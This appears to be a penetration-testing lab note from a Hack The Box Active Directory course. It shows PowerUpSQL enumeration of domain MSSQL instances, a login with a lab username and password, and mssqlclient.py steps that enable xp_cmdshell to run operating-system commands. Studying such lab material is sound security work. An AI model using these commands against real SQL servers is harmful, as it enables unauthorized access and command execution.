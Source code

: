 #### **Enumerating MSSQL Instances with PowerUpSQL**

```powershell
PS C:\htb> cd .\PowerUpSQL\
PS C:\htb>  Import-Module .\PowerUpSQL.ps1
PS C:\htb>  Get-SQLInstanceDomain

ComputerName     : ACADEMY-EA-DB01.INLANEFREIGHT.LOCAL
Instance         : ACADEMY-EA-DB01.INLANEFREIGHT.LOCAL,1433
DomainAccountSid : 1500000521000170152142291832437223174127203170152400
DomainAccount    : damundsen
DomainAccountCn  : Dana Amundsen
Service          : MSSQLSvc
Spn              : MSSQLSvc/ACADEMY-EA-DB01.INLANEFREIGHT.LOCAL:1433
LastLogon        : 4/6/2022 11:59 AM
```

```powershell
PS C:\htb>  Get-SQLQuery -Verbose -Instance "172.16.5.150,1433" -username "inlanefreight\damundsen" -password "SQL1234!" -query 'Select @@version'

VERBOSE: 172.16.5.150,1433 : Connection Success.

Column1
-------
Microsoft SQL Server 2017 (RTM) - 14.0.1000.169 (X64) ...
```

From linux using `mssqlclient.py`

* `mssqlclient.py INLANEFREIGHT/DAMUNDSEN@172.16.5.150 -windows-auth`

then we can run os command using

* `SQL> enable_xp_cmdshell`
* `SQL>` `xp_cmdshell whoami /priv`

## **Kerberos "Double Hop" Problem**

![Untitled](<.gitbook/assets/ACTIVE DIRECTORY Enum & Attacks 4af4b148af5740d1a6a92a3c741df505/Untitled 13.png>)

